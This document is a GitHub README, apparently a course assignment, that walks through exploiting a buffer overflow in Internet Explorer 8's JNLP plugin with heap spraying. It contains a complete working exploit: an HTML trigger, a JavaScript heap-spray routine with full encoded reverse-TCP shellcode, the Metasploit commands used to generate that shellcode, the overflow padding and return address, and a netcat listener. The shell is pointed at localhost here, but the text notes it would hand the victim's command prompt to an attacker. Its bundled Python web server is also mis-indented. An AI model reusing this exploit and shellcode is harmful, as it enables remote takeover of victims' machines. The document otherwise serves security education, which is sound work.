 # Exploiting a Buffer Overflow Vulnerability in the JNLP plugin within Internet Explorer 8 with using the Heap Spraying Technique

JNLP (Java Network Launch Protocol) enables an application to be launched on a client desktop using resources that are hosted on a remote server. A specific version of JNLP for IE8 is vulnerable to a stack-based buffer overflow: when the plugin is invoked with a **launchjnlp** parameter, it will copy the value of the **docbase** parameter to a stack buffer using `sprintf`, but fails to check the length of the value. 

The vulnerability can be triggered by the following:
```html
<object type='application/x-java-applet'>
<param name='launchjnlp' value='1'>
<param name='docbase' value='AAAAAAAA....AAAAAA'>
</object>
```

## Goal
Input a sufficiently long string in the **docbase** value such that the register $eip gets ovewritten with an address known to contain our NOP sled and shellcode. Said shellcode establishes a reverse TCP connection to another machine.

## How it's done
To demonstrate this vulnerability, a simple web server is set up to listen on port 8080. This web server shows the contents of a specific directory in which the html file (containing the exploit) is located. The html file is clicked from the client and nothing appears to happen, but the truth is that the heap is sprayed with a shellcode! It is not until the client clicks on *Click Me* that at least one the shellcodes in the heap gets executed. This shellcode consists of several NOP operations and a reversed TCP connection to a chosen IP and port. The port used is *6666*, and to simplifly the assignment's grading, the chosen IP is 127.0.0.1, which means that the command prompt will be obtained in the client instead of in the attacker's machine (or Kali, in this case).

## Specifics
1. Two machines are used to demonstrate this vulnerability. A Windows 7 VM (with DEP disabled) acts as the client, and a Kali Linux VM acts as the web server.

2. A Windows shellcode is generated with Metasploit, which is a tool already installed in Kali Linux. The instructions in this shellcode create a reverse TCP connection from said Windows machine to a chosen IP and port. In other words, these instructions would spawn the victim's command prompt in the attacker's machine; but for practicality, the IP chosen as the attacker's IP does not belong to the attacker and it is the victim's machine, 127.0.0.1. Using the attacker's IP will make the demo realistic, but it will not make it easy to the grader of this assignment.

The shellcode is generated as follows:

`msfconsole`

`use payload/windows/shell_reverse_tcp`

`set LHOST 127.0.0.1`

`set LPORT 6666`

`generate -t js_le`

In the last command, **js_le** was used because a JavaScript shellcode is needed and the Windows machine that is targeted uses Little Endian (le).

3. To accept this reverse TCP connection in Windows, the following netcat command is needed:

`nc -l -p 6666`

**-l** specifies that nc should listen for an incoming connection, and **-p** specifies the source port.

4. Windows debugger, WinDBG, is helpful to visualize the stack and heap contents and gather information for the exploit.

5. The script that sets up a web server is provided, and it looks like this:

```python
#!/usr/bin/python
#
# Python Web Server
# Serves only static files
#
# by Saumil Shah

import sys
import BaseHTTPServer
from SimpleHTTPServer import SimpleHTTPRequestHandler

port = 8080

class HandlerClass(SimpleHTTPRequestHandler):
        # Disable DNS lookups
        def address_string(self):
                    return str(self.client_address[0])
                    ServerClass = BaseHTTPServer.HTTPServer
                    Protocol = "HTTP/1.0"
                    server_address = ('0.0.0.0', port)
                    HandlerClass.protocol_version = Protocol
                    httpd = ServerClass(server_address, HandlerClass)
    try:
        sa = httpd.socket.getsockname()
        print "Serving HTTP on", sa[0], "port", sa[1], "..."
        httpd.serve_forever()
    except KeyboardInterrupt:
        print 'Shutting down the web server'
        httpd.socket.close()
```

6. To use the heap spraying technique, a string that follows the pattern "NOP Sled + Shellcode" is created in JavaScript. This string is successfully sprayed in the heap to occupy hundreds of megabytes.

7. Once we know a specific address in the heap contains the beggining of the shellcode, that is, the NOP sled, we can concatenate that address at the end of the input to **docbase** to override $eip, and therefore, be able to jump to the shellcode.

## Steps

1. Test different length inputs for **docbase** to determine the number of bytes needed to override $eip. In this case, 396 will override $eip and nothing more. This means that 392 bytes are needed just before the 4 bytes address that we want to point $eip to. This address will be determined when the heap is sprayed.

2. To spray the heap with the shellcode, an array **a** is initialized and a function **heap_spray()** is specified to populate **a**

```html
<script> 
    var a = new Array();
    function heap_spray() {
   
        var shellcode = unescape("%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u685d%u3233%u0000%u7768%u3273%u545f%u4c68%u2677%uff07%ub8d5%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u50d5%u5050%u4050%u4050%u6850%u0fea%ue0df%ud5ff%u6a97%u6805%u007f%u0100%u0268%u1a00%u890a%u6ae6%u5610%u6857%ua599%u6174%ud5ff%uc085%u0c74%u4eff%u7508%u68ec%ub5f0%u56a2%ud5ff%u6368%u646d%u8900%u57e3%u5757%uf631%u126a%u5659%ufde2%uc766%u2444%u013c%u8d01%u2444%uc610%u4400%u5054%u5656%u4656%u4e56%u5656%u5653%u7968%u3fcc%uff86%u89d5%u4ee0%u4656%u30ff%u0868%u1d87%uff60%ubbd5%ub5f0%u56a2%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff")

        var nops = unescape("%u9090%u9090");

        while(nops.length <= 0x100000-shellcode.length){
            nops += nops;
        }

        nops += shellcode;

        for(i = 0; i < 200; i++) {
            a[i] = nops;
            a[i].substring(0,1); //This is only used to trick the memory allocator 
        }
    }
    .  
    .
    .
</script>
```
The 0x90 bytes that conform the NOP sled have to be passed to the function **unescape()** to let javascript know that the string is already represented in hex. 

Without the second line within the for loop, the memory allocator fails to spray the heap and only allocates one block.

3. Just below the previous block of code is the following:

```html
<script>
    .
    .
    .
function trigger() {
    var buf = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\x95\xff\xda\x09";

    var htmlTags =
    "<object type='application/x-java-applet'>" +
    "<param name='launchjnlp' value='1'>" +
    "<param name='docbase' value='" + buf + "'>" +
    "</object>";

    document.write(htmlTags);
    }
   </script>
</head>
<body onload="heap_spray()">
    <input type="button" value="Click Me" onclick="trigger()">
</body>
```

This means that as soon as we click on the page (jnlp1.html), the heap should be sprayed because of `<body onload="heap_spray">`

Loading that page, and attaching the IE tab with WinDBG, we can search for specific bytes that we know are present in the shellcode. Like this `s 0x00000000 L?0x7FFFFFFF 90 90 90 fc e8 82 00`. This would show all of the addresses that store that set of bytes. I chose x09DAFF95 because it does not contain zeroes, and therefore, will not create null bytes in the input.

We have to make sure that our chosen address contains the NOP sled. Run `dc 09daff95`

![alt text](https://github.com/pwilthew/Systems-Security/blob/master/Heap-Spray/Screen%20Shot%202017-10-08%20at%2018.16.32.png)

3. Now that we have the address to jump to, we can append it to the end of the long string of repeated "A". This will be address that will override the value $eip. To execute the buffer overflow, we have to click on "Click Me," as the function trigger() is called immediately after doing so: `<input type="button" value="Click Me" onclick="trigger()">`

Before clicking, we need to wait for incoming TCP connections in the Windows command prompt (as explained in #3 of **Specifics**).

![alt text](https://github.com/pwilthew/Systems-Security/blob/master/Heap-Spray/Screen%20Shot%202017-10-08%20at%2018.21.55.png)

4. That should be it! The program jumped to the address that contained a shellcode and the shellcode effectively established a TCP connection to the chosen IP (127.0.0.1)

![alt text](https://github.com/pwilthew/Systems-Security/blob/master/Heap-Spray/Screen%20Shot%202017-10-08%20at%2018.21.59.png)

